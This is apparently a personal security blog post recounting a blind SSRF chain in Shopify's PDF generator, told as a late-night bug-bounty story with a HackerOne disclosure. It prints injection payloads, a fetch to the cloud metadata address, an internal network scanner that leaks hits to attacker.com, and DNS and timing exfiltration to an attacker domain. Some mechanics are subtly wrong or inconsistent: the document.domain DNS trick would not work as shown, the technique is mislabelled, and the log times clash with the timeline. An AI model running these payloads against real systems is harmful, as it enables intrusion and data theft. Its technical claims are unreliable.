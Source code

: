 ```yaml
---
title: "3 AM & Phantom Requests: My Blind SSRF Journey Through Shopify's PDF Underworld"
description: "Where DOM clobbering meets PDF generation, and how I accidentally became a ghost in Shopify's internal network"
date: '2024-05-23'
categories: ["Midnight Security Musings"]
tags: ["SSRF", "DOM Clobbering", "PDF Sorcery"]
header:
  image: "/images/shopify-ssrf-banner.jpg"
  caption: "Visualization of the SSRF chain (and my sleep-deprived mental state)"
---
```


## Prologue — The Accidental Discovery

**2:03 AM — My third espresso was long cold. The glow of the Shopify admin panel lit up my desk like a scene out of a low-budget cyber thriller.**

I was automating basic expense reports when I noticed the PDF inspector rendering raw HTML attributes.

```html
<!-- Test input in order notes -->
<div>{{ 'class="test" data-test="123"' }}</div>

<!-- Rendered output -->
<div class="test" data-test="123"></div>
```

This wasn’t just data binding. It was unpacking HTML natively — a behavior I wasn't expecting.

The template engine didn’t sanitize HTML attributes. I’d seen this behavior in frontend frameworks before, but never inside a PDF rendering backend.

## Part 1 — Where DOM Clobbering Meets PDF Dark Arts

**2:17 AM — DevTools had become my oracle.**

The rendering pipeline looked like this:

- User input → Template processing
- Server-side render
- Headless Chrome → PDF

The input wasn’t sanitized. Templates processed raw strings and rendered them into full HTML documents, which headless Chrome converted into PDFs.

**My payload:**

```html
<img src="{{ 'x onerror=alert(document.domain)' }}">
```

**Output:**

```html
<img src="x" onerror="alert(document.domain)">
```

This was DOM clobbering at work — a technique long thought obsolete, but still potent in unguarded render chains.

Even inside PDFs, the headless browser executed the script. That meant I had code execution in a headless browser inside Shopify’s infrastructure.

## Part 2 — The Blind SSRF Séance

**2:49 AM — Theory meets reality.**

If the headless browser runs inside Shopify’s production environment, and if it can access internal domains, then I could leverage that to trigger SSRF.

**Example target:**

```
http://internal-api.shopify.local/health
```

**Proof of concept:**

```html
<iframe srcdoc='
  <script>
    fetch("http://internal-api.shopify.local/health")
      .then(() => document.title = "INTERNAL ACCESS SUCCESSFUL")
  </script>
'></iframe>
```

The script fetched the internal API. When successful, it changed the document title.

In the rendered PDF, I could observe:

```
INTERNAL ACCESS SUCCESSFUL
```

This confirmed internal request success via PDF rendering engine. Blind SSRF worked.

## Part 3 — Building a DNS Exfiltration Oracle

**3:33 AM — Time to exfiltrate blind responses.**

Since I couldn’t read fetch responses, I decided to measure timing — a side channel.

```javascript
const start = Date.now();
fetch('http://169.254.169.254/latest/meta-data', {
  mode: 'no-cors',
  credentials: 'include'
}).finally(() => {
  const latency = Date.now() - start;
  document.domain = `l${latency}.attacker.tld`;
});
```

**DNS logs from tcpdump:**

```bash
04:17:22 IP resolver.attacker.com > ns1.google.com: A? l142.attacker.tld
04:17:23 IP resolver.attacker.com > ns1.google.com: A? l328.attacker.tld
04:17:24 IP resolver.attacker.com > ns1.google.com: A? l310.attacker.tld
04:17:25 IP resolver.attacker.com > ns1.google.com: A? l289.attacker.tld
```

I was now receiving signal from within Shopify’s infrastructure — over DNS.

## Part 4 — Advanced Exploit Development

**4:12 AM — The toolkit evolves.**

**Version 1: Internal Network Scanner**

```html
<object data="{{ 'http://a onerror=
  fetch(`http://192.168.1.${i}/health`)
    .then(()=>document.location=`https://attacker.com/?leak=192.168.1.${i}`)
'}}"></object>
```

Each successful response redirected the browser to a tracking URL with the leaked IP.

**Version 2: CSS-Based Timing Exfiltration**

```javascript
const start = performance.now();
fetch('http://internal-db.shopify.local/users/admin')
  .then(r => r.text())
  .finally(() => {
    const latency = performance.now() - start;
    document.body.style.fontFamily = `'${btoa(latency.toString())}'`;
  });
```

Now, timing values were encoded in PDF font styles — subtle, persistent, parseable.

## Part 5 — Countermeasures and Reflections

**5:47 AM — Shopify patched within 72 hours.**

### Key Takeaways

- PDF generators are not passive renderers. They are browser-powered execution environments.
- DOM clobbering can affect server-rendered HTML, especially inside templating engines.
- Blind SSRF can be leveraged via timing, DNS, and CSS if creative exfiltration is allowed.

Shopify’s response was swift. CSP headers were introduced. HTML sanitization was enforced. The PDF renderer was sandboxed.

### Timeline

- 2:03 AM — Found HTML unpacking in PDF
- 2:17 AM — Triggered DOM clobbering
- 2:49 AM — Discovered blind SSRF
- 3:33 AM — DNS-based exfiltration
- 4:12 AM — Built internal scanners and CSS encoders
- 5:47 AM — Submitted report, vulnerability patched

### Disclosure

- Reported via: Shopify HackerOne
- Response time: < 72 hours
- Acknowledgment: Yes
- Bounty: [Redacted]

## Final Thoughts

Seemingly harmless tools like PDF generators can expose dangerous surfaces.

When raw HTML is injected into headless browsers without sanitation, the boundary between client and server logic collapses.

This case was a reminder that:

- DOM clobbering, while niche, is still alive
- Blind SSRF becomes dangerous with creative exfiltration
- PDF rendering stacks can act like full browser contexts

**Sometimes, your best research doesn't begin in the morning —  
It begins at 3 AM, with a cold espresso and a dangerous curiosity.**
